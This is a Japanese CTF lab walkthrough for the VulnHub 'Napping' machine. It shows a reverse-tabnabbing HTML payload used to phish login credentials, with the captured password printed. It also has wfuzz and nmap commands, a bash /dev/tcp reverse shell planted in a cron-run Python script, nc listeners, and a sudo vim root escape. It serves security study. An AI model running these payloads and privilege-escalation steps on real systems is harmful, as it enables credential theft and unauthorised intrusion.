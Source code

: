## napping
- 起動ができないなら、通常起動する

### 説明
- このサイトは初めに自分のユーザ名とパスワードを登録することで、自分の作成したWebサイトをアピールするために自分のIPアドレスを登録することができるサイト。

### ポートスキャンまで同じ
- `192.168.56.105`


### (おまけ)UDPのポートスキャンをする
- `sudo nmap -sU --top-ports 10 $IP` 
- `sudo nmap -sU -p 1-10 $IP`
  - UDPのポートスキャンは時間がかかるので、ポートスキャンを1~10にしている

### サイトにアクセスする。
- ログインページだが、ユーザもパスワードもわからないのでsign upから自分のを登録する。ここではユーザ名を`evil`、パスワードを`password`とする
- welcomeページが出てくるので翻訳して読んでみる。管理者が全てのリンクを確認しています、と書いてある 

### ソースコードを見る
- `<a href="maicious.html" target="_blank">新規タブで開く</a>`
  - このコードは実は脆弱性があるのでタブナビング攻撃ができる
- `<a href="maicious.html" target="_blank" rel="noopener noreferrer">新規タブで開く</a>`
  - このコードが正しい   
### WFuzz
- wfuzzはhttpリクエストのヘッダーの値を自由に調整することができる
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-files.txt --hc 404 "$IP/FUZZ"`
  - `-c`color出力
  - `-z`辞書の指定
  - `--hc 404`404は表示しない 
- config.phpは気になるので見てみる
  - 特に何も得られない 
### タブナビング攻撃の準備
- タブナビング攻撃とはターゲットサーバに悪意のあるコードをアップロードしてログインページのuser名とパスワードを入力してボタンを押すと、parrotOS側の偽サイトにリダイレクトされ、そこでもう一度user名とパスワードを入力することでuser名とパスワードを盗む
- nappingディレクトリに次の2つのファイルを作る
  - `get_info.html` このファイルは、次のコマンドで入手する
  - `wget $URL/index.php > get_info.html` 
  - `evil.html` このファイルは以下のをvimで書く。ipアドレスはParrotOSのを書く
    ```html
    <!DOCTYPE html>
    <html><body><script>
        if (window.opener){
          window.opener.location="http://192.168.56.105:31337/get_info.html";
        }
    </script></body></html>
    ```
- ターミナルを新しく２つ開ける。両方ともnappingフォルダに移動して、各々のコマンドを打つ。何をしているかというと、80番ポートで入ってきたevil.phpをリダイレクトで31337番ポートに送信してget_info.htmlに到達して、そこでユーザ名やパスワードを入力させたものを盗み見る
  - `sudo python3 -m http.server 80`
  - `nc -lvnp 31337`

### タブナビング攻撃の開始
- webサイトのログインページにアクセスしてログインして、ParrotOS側のIPアドレスを登録する
- `http://192.168.56.102/evil.html`
- submitを押して、下の`Here`リンクを押すと真っ白な画面になるが、2分ぐらい放っておくとターミナルのサーバ履歴にアクセスがありuser,passwordがわかる
- `C%40ughtm3napping123` %40は@のこと

|ユーザ名|パスワード|
|:--|:--|
|daniel|C@ughtm3napping123|

### danielでssh
- `ssh daniel@192.168.56.105`


### システム内探索
- `id`
  - ユーザが1001,1002の複数所属しているグループを確認する
- `sudo -l`
- SUIDを確認
  - SUIDはファイルの所有者の権限を引き継いで実行するというパーミッション 
- SQLの設定ファイルを見る
  - `/var/www/html/config.php`
  - ユーザとpasswordがわかる

### データベースにアクセスする
- データベースに接続する
  - `mysql -u adrian -p`
  - プロンプトが変化する 
- データベース一覧を見る
  - `show databases;` 
- データベースの選択
  - `use website;`
- テーブルを見る
  - `show tables`
- ユーザを見る
  - `select * from users\G`
  - \Gをつけると;はいらない
- 特に何もない
- `quit;`

### danielユーザでできることが何もない
- このグループで実行できる他のユーザを探す
- `groups`
  - administratorsグループに属しているのがわかる
- 登録ユーザでbashが使えるユーザを特定する
  - `cat /etc/passwd | grep "bash"`
### グループの利用可能なファイルを探す
- `find / -group administrators 2> /dev/null`
- `/home/adrian/query.py`が見つかる。
- ファイルを調べる
  - query.pyは何をしている？ 
  - `ls -l /home/adrian/query.py`
  - 書込み、読み込みはできるが実行はできない

- query.pyは定期的に呼び出されて、ファイルは書き込みができるのでリバースシェルでadrianユーザに変更を目指す
  
### リバースシェルの準備
- `/dev/shm/`ディレクトリにvimで次のrevshell.shを書く
- revshell.shファイルを作る
  ```
  #/bin/bash
  bash -c 'bash -i >& /dev/tcp/192.168.56.102/4242 0>&1'
  ```
  - (参考)ncコマンドやmkfifoコマンドでリバースシェルをやってみる
- `chmod +x revshell.sh`
- vimでquery.pyに`os.system('/usr/bin/bash /dev/shm/revshell.sh')`を書き込む
```py
import os

os.system('/usr/bin/bash /dev/shm/revshell.sh')

now = datetime.now()
```
### リバースシェルのセッションの確立
- ParrotOS側のターミナル
- `nc -lvnp 4242`
- 2分ほど待ってるとセッションが確立される

### 対話シェルを奪取


### ルートシェルの取得
- `sudo -l`
- `sudo /usr/bin/vim -c ':!/bin/sh'`
- `cd /root`
- `ls`
- `cat root.txt`

### (おまけ)danielユーザがhttpリクエストしてくるのを見る
- rootを対話的シェルにする
- `cd /root;ls`
- `cat nap.py`
  - for文でリクエスト(request.get)を送っているのがわかる 

## 初めからやりおなす時のMySQLの削除
- `mysql> delete from users where username='evil';`
